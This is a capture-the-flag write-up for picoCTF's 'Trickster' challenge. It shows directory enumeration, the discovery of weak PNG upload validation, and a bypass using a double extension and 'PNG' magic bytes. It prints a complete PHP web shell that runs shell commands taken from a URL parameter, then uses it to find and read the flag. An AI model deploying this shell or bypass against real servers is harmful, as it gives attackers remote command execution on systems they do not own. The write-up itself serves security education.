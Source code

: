 # Trickster Challenge Writeup
**Description**: I found a web app that can help process images: PNG images only!

## 1. Information Gathering
![Web application interface](image.png)
The target is a web app for uploading PNG images only. This suggests potential vulnerabilities related to file upload bypass or command injection. Let's begin by enumerating the web app.

## 2. Enumeration
Running the directory discovery tool:
```bash
gobuster dir -u http://atlas.picoctf.net:56528/ -w /usr/share/wordlists/dirb/common.txt
```

After running the gobuster command, we identify several interesting directories and files:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:56528/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 285]
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/index.php            (Status: 200) [Size: 321]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:56528/uploads/]
===============================================================
Finished
===============================================================
```

The `robots.txt` file contains the following:
```
# robots.txt
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

After examining instructions.txt, we discover crucial information:
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
    look for ".png" extension in the submitted files
    make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47")
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

This reveals the application's validation mechanism: it checks for both the `.png` extension and the PNG magic bytes at the beginning of the file. We can exploit this by crafting a PHP file that begins with "PNG" and has a double extension.

## 3. Exploitation
I'll create the following payload file named `script.png.php`:

```php
PNG
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Command Executor</title>
</head>
<body>
    <h1>Command Executor</h1>
    <form method="GET">
        <label for="command">Enter Command:</label>
        <input type="text" id="command" name="command" required>
        <button type="submit">Run</button>
    </form>
    <hr>
    <?php
    if (isset($_GET['command'])) {
        $command = $_GET['command'];
        $output = shell_exec($command);
        echo "<pre>$output</pre>";
    }
    ?>
</body>
</html>
```

![Successful file upload](image-1.png)
Success! The application accepted our payload. Now I can execute commands by visiting the following URL:
```
http://atlas.picoctf.net:56528/uploads/script.png.php
```
![Command execution interface](image-2.png)

Now let's search for potential flag files:
```bash
find / -name *.txt
```
![Output of find command](image-3.png)

The file `/var/www/html/GNTDOMBWGIZDE.txt` looks suspicious. Let's read its contents:
```bash
cat /var/www/html/GNTDOMBWGIZDE.txt
```

![Flag revealed](image-4.png)

And there's our flag!